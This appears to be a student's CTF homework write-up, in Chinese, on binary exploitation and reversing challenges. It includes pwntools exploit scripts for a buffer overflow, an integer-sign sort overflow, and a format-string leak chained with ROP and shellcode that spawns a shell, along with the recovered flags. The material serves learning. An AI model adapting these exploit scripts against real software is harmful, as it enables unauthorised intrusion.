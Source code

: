 # Hw0

## pwn1

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```

### concept

objdump 後發現 main 裡面是 gets 讀取輸入，沒有檢查長度所以有 buffer overflow 的漏洞，可以利用漏洞跳到 callme 函數即可拿到 shell

![](https://i.imgur.com/fm7FiID.png)

使用 gdb 測出 ret addr offset 為 40

![](https://i.imgur.com/EDz6A6i.png)

### exploit

```python
#!/usr/bin/env python

from pwn import *

r = remote("csie.ctf.tw", 10120)

addr = 0x0000000000400566

r.sendline('a' * 40 + p64(addr))
r.interactive()
```

### flag

```FLAG{BuFFer_0V3Rflow_is_too_easy}```

## BubbleSort

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

### concept

objdump 後讀懂程式邏輯後發現 BubbleSort 中直接將 al 當作 sort 的個數

![](https://i.imgur.com/dZ8zdMd.png)

而原先輸入 sort 個數的值就是存在 eax 中，不過他有判斷 sort 個數不能超過 array 長度，但是可以輸入負數使得 al 的值超過 array 長度，導致 sort 超過 array 範圍，如此即可修改 ret addr 跳到 DarkSoul 函數獲得 shell

![](https://i.imgur.com/GEyVjvP.png)

![](https://i.imgur.com/8T6ikNv.png)

### exploit

將 127 格全部填滿 DarkSoul 的 addr，接著只要 sort 後 ret addr 為 DarkSoul addr 就成功，測試一下發現 -1 就可以了

不直接算 ret addr offset 的原因是因為其中的殘值與 DarkSoul addr 大小關係不確定，不一定直接 sort 127 + offset 的大小就能成功

```python
#!/usr/bin/env python

from pwn import *

r = remote("csie.ctf.tw", 10121)

addr = '0x08048580'

r.recvuntil(':')
r.sendline('127')
r.recvuntil(':')
r.sendline('{} '.format(str(int(addr, 16))) * 127)
r.recvuntil(':')
r.sendline('-1')
r.interactive()
```

### flag

```FLAG{Bubble_sort_is_too_slow_and_this_question_is_too_easy}```

## ret222

```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
FORTIFY:  Enabled
```

### concept

觀察到該程式保護全開，所以先找一下有沒有 format string 或 heap 相關的漏洞

可以發現在 Show info 輸出 name 的時候有 format string 的漏洞

![](https://i.imgur.com/f7SvZwn.png)

而在 Save data 時使用 `gets` 造成 buffer overflow

所以可以利用 format string leak 出 code base 和 canary，然後再利用 buffer overflow 做出 ROP 讀入 shellcode 到 name 上，最後再跳到 name 上即可 (程式最後結束時會將 name 後的一大塊 memory 權限設成 rwx)

### exploit

```python
#!/usr/bin/env python

from pwn import *

r = process('./ret222')

context.arch = 'amd64'

def setname(data):
    r.sendlineafter('>', '1')
    r.sendafter(':', data)

def showinfo():
    r.sendlineafter('>', '2')
    r.recvuntil(':')

def savedata(data):
    r.sendlineafter('>', '3')
    r.sendlineafter(':', data)

def ex():
    r.sendlineafter('>', '4')

setname("%23$p")
showinfo()
canary = int(r.recvuntil('*')[2:-1], 16)
log.info(hex(canary))

setname("%24$p")
showinfo()
base = int(r.recvuntil('*')[2:-1], 16) - 0xd40
log.info(hex(base))

name = base + 0x202020
main = base + 0xc00
gets = base + 0x908
pop_rdi = base + 0xda3

payload = 'a' * 136 + flat(canary, 'deadbeef', pop_rdi, name, gets, main)
savedata(payload)
ex()

r.sendline(asm(shellcraft.sh()))

payload = 'a' * 136 + flat(canary, 'deadbeef', name)
savedata(payload)
ex()

r.interactive()
```

### flag

```FLAG{YOU_ARE_REALLY_SMART!!!!!!}```

## rev1

### concept

objdump 後發現有一個 print_flag 函數

![](https://i.imgur.com/oxlrRbp.png)

直接使用 gdb 跳過去就會印出 flag 了

![](https://i.imgur.com/0WMcQsp.png)


### flag

```FLAG{_reverse_is_fun}```

## rev2

### concept

使用 IDA 反組譯後可以發現他將輸入每 byte 與 0xcc 做 xor 後和一個特定字串 (unk_4120BC) 比較，若相同輸入即為 flag

![](https://i.imgur.com/tXyz9qb.png)

unk_4120BC 內容

![](https://i.imgur.com/KFouQeu.png)

利用 xor 的特性可知將 unk_4120BC 每 byte xor 0xcc 即可還原出 flag

### exploit

```python
#!/usr/bin/python3

flag = [0x8A, 0x80, 0x8D, 0x8B, 0xB7, 0x94, 0xFC, 0xBE, 0x93, 0xB8, 0xA3,
        0x93, 0x8F, 0xBE, 0xF8, 0xAF, 0xA7, 0x93, 0x81, 0xFF, 0xB1]

for i in flag:
    print(chr(i ^ 0xcc), end='')
```

### flag

```FLAG{X0r_to_Cr4ck_M3}```
